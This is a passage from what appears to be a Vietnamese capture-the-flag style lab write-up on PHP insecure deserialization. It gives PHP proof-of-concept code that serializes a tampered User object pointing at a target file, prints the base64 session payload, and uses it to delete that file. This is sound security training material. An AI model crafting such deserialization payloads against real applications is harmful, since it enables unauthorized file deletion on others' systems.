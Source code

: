 ```

?>
```
- Bây giờ ta sẽ tạo lại object User này.


```
<?php

class User {
   public  $username; 
   public  $access_token;
   public $avatar_link;
   function __construct($username, $access_token,$avatar_link){
      $this->username = $username;
      $this->access_token = $access_token;
      $this->avatar_link = $avatar_link;
   }

}

$poc = new User("viewner", " ob4nfdfe5htvwuykpn0zykbvjh645uxw", "/home/carlos/morale.txt");

$poc = serialize($poc);

echo base64_encode($poc);

// $a= "Tzo0OiJVc2VyIjozOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJvYjRuZmRmZTVodHZ3dXlrcG4wenlrYnZqaDY0NXV4dyI7czoxMToiYXZhdGFyX2xpbmsiO3M6MTk6InVzZXJzL3dpZW5lci9hdmF0YXIiO30%3d";

// $a = base64_decode($a);

// $b= unserialize($a);

// print_r($b);

?>
```

- `Tzo0OiJVc2VyIjozOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJvYjRuZmRmZTVodHZ3dXlrcG4wenlrYnZqaDY0NXV4dyI7czoxMToiYXZhdGFyX2xpbmsiO3M6MjM6Ii9ob21lL2Nhcmxvcy9tb3JhbGUudHh0Ijt9`
- Gửi session để delete và solved bài lab.
- ![image](https://hackmd.io/_uploads/SkTgjrYR6.png)

- ![image](https://hackmd.io/_uploads/Byo2iHFRp.png)

- ![image](https://hackmd.io/_uploads/HkBTjBFR6.png)

## Lab: Arbitrary object injection in PHP

- Đề bài cho chúng ta như sau:
- ![image](https://hackmd.io/_uploads/ByV82HFAp.png)
